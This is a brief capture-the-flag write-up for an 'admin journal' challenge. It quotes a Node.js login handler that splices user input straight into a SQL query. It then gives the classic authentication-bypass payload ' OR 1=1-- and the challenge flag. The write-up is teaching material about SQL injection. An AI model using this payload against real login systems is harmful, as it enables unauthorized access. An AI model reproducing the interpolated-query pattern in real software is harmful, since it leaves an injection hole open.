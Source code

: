 # admin journal

## Challenge

> Bypass the admin login to read the flag from the database.

## Walkthrough

```js
app.post('/login', (req, res) => {
    // ...
    const query = `SELECT * FROM users WHERE
        username = '${req.body.username}' AND
        password = '${req.body.password}'`;
    // ...
```

Trivial SQLI.

```sql
-- password: ' OR 1=1--

SELECT * FROM users WHERE
    username = 'admin' AND
    password = '' OR 1=1--
```

## Solve

`maple{ess_skew_el_inject10nz_are_pr3tty_fun}`
